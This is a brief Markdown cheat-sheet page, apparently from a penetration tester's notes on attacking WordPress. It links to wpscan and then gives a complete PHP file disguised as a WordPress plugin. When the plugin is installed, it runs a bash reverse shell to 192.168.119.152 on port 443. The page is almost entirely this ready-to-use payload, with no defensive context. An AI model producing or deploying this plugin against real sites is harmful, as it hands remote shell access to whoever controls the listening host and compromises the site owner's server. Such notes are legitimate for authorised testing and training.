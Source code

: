 # Wordpress

## Tools

* [wpscan](../../toolbox/web/wpscan.md)

## Reverse Shell Plugin

```
<?php

/**
 * Plugin Name: Wordpress Reverse Shell
 * Author: Not Me
 */

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.152/443 0>&1'");
?>
```
